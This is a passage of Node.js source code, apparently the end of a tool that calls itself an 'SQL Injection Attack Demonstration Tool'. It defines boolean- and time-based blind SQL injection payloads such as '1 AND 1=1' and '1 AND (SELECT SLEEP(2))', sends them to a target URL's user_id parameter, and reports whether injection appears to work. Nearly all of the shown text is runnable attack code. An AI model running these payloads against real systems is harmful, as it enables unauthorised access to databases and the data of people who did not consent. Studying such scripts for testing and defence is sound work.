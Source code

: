 ```node 
    { payload: "1 AND 1=1", expectedSuccess: true },
    { payload: "1 AND 1=2", expectedSuccess: false },
    { payload: "1 AND (SELECT SLEEP(2))", timing: true }
  ];
  
  for (const test of testCases) {
    console.log(`[*] Testing payload: ${test.payload}`);
    
    try {
      const startTime = Date.now();
      const response = await axios.get(`${targetUrl}?user_id=${encodeURIComponent(test.payload)}`);
      const elapsedTime = Date.now() - startTime;
      
      if (test.timing) {
        console.log(`[+] Response time: ${elapsedTime}ms`);
        if (elapsedTime > 2000) {
          console.log('[+] Time-based blind injection appears to work!');
        } else {
          console.log('[!] Time-based blind injection test inconclusive.');
        }
      } else {
        const hasData = response.data.includes('User Information') && !response.data.includes('Error executing query');
        console.log(`[+] Response indicates success: ${hasData}`);
        if ((test.expectedSuccess && hasData) || (!test.expectedSuccess && !hasData)) {
          console.log('[+] Boolean-based blind injection appears to work!');
        }
      }
    } catch (error) {
      console.error(`[!] Error: ${error.message}`);
    }
  }
}

// Main function
async function main() {
  console.log('SQL Injection Attack Demonstration Tool');
  console.log('======================================');
  console.log(`Target: ${targetUrl}`);
  console.log('--------------------------------------');
  
  // Run the attacks
  await executeSqlInjectionAttacks();
  
  // Test for blind SQL injection
  await testBlindSqlInjection();
  
  console.log('\n[*] Attack demonstration completed');
}

// Run the main function
main().catch(error => {
  console.error('Fatal error:', error);
});
```
